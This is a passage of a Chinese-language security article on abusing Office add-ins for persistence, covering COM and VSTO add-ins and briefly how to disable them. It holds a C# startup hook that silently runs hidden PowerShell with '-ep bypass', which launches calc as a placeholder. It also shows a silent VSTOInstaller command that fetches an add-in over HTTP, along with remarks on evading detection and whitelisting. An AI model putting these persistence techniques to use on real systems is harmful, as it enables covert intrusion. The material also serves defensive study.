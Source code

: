 **优点：**①创建插件，多个office产品能通用（一举多得）；②一条命令即可完成部署(regasm)

**缺点：**①需要用户打开VBA编辑器；②com注册需要管理员权限；③VDI环境中可能用处不大。

<br>

**VSTO 插件<br style="text-align: left">**



为了完整性，此处也提下Visual Studio Tools for Office(VSTO)。VSTO在office新版本中是Com插件的替代品，虽然前者还是能用。与Com插件不同的是，VSTO要求特定的运行时来安装，而默认是没有安装的。

用VSTO来实现永久化的一个点是利用“ThisAddIn-Startup”函数，该函数用于处理启动事件（如应用程序启动的时候模块加载时）。实例如下：

```
private void ThisAddIn_Startup(object sender, System.EventArgs e)
{
    System.Diagnostics.Process process = new System.Diagnostics.Process();
    System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
    startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
    startInfo.FileName = "powershell.exe";
    startInfo.Arguments = "-ep bypass -C calc";
    process.StartInfo = startInfo;
    process.Start();
}
```

VSTO插件利用的难点就在于部署。部分是因为需要特殊的运行时。如果没有被安装，可以使用Vstor_redist.exe进行静默安装，不过需要处理安全控制（需要避免被检测到）。

VSTO插件（*.vsto）可以使用VSTOInstaller.exe进行安装(它是运行时的一部分)，如图15所示：

[![](./img/85966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015b11d94b054cd798.png)

图 15 利用VSTOInstaller.exe安装VSTO插件

不幸的是，这会弹出确认安装的提示。虽然可以使用/s选项来静默安装，但这需要可信的证书发布者进行签名，否则安装会失败。安装提示如图16所示：

[![](./img/85966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ae77a1b586773d05.png)

图 16 VSTO插件安装提示

有趣的是，VSTOInstaller.exe是微软签名的文件，插件的位置可以由URL指定(如"VSTOInstaller.exe /s /i [http://192.168.7.129/OutlookAddIn1.vsto](http://192.168.7.129/OutlookAddIn1.vsto))。乍看之下，会让人觉得如果有VSTO插件在使用，就可以用来绕过可能的应用白名单。不过Windows的信任模型限制了这种方式。虽然用户可能会信任在“Trusted Root”中信任一些CA，但是这种信任并不能用于让他们对软件进行更新。相反，有个单独的“Trusted Pulibsheer”（受信任发布者）保存着用着这种能力的CA。

**优点：**VSTOInstaller.exe是微软签名的程序，可用通过HTTP以静默的方式下载插件，尽管需要来源于可信的发布者。

**缺点：**①需要VSTO运行时；②没有可信发布者对插件签名就不能静默安装，尽管用户可能会把它当做正常应用来安装它；③VDI环境中可能用处不大。

<br style="text-align: left">

**恶意插件防护**



恶意的XLL、COM、Automation、VSTO插件都可以在应用程序的信任中心对插件进行禁用，也可以通过注册表完成，如图17所示：

[![](./img/85966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b3a6f6319fb95078.png)

图 17 禁用插件
